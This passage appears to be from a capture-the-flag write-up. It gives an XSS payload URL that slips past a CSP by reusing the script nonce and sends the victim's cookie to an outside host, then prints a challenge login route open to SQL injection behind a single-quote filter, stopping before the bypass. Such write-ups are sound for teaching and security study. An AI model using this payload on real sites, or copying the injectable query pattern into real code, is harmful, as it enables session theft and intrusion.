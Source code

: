 ```
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%22LRGWAXOY98Es0zz0QOVmag==%22%3Edocument.location=%22https://fword.wtf/?a=%22%2Bdocument.cookie;%3C/script%3E
```

**PS:** I used window.location because of default-src attribute in CSP so we can only use fetch for example with the hostname none. 

## Missing Flavortext ##

The website is a simple login page and we have the source code
```js
app.use(bodyParser.urlencoded({ extended: true }));
app.use(express.static('static'));

// login route
app.post('/login', (req, res) => {
  if (!req.body.username || !req.body.password) {
    return res.redirect('/');
  }

  if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
    return res.redirect('/');
  }

  // see if user is in database
  const query = `SELECT id FROM users WHERE
    username = '${req.body.username}' AND
    password = '${req.body.password}'
  `;

  let id;
  try { id = db.prepare(query).get()?.id } catch {
    return res.redirect('/');
  }

  // correct login
  if (id) return res.sendFile('flag.html', { root: __dirname });

  // incorrect login
  return res.redirect('/');
});

app.listen(3000);
```

We can easily notice the sql injection in this piece of code 
```js
  const query = `SELECT id FROM users WHERE
    username = '${req.body.username}' AND
    password = '${req.body.password}'
  `;
```
But there is a simple filter that is blacklisting the quotation mark:
```js
  if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
    return res.redirect('/');
  }
```

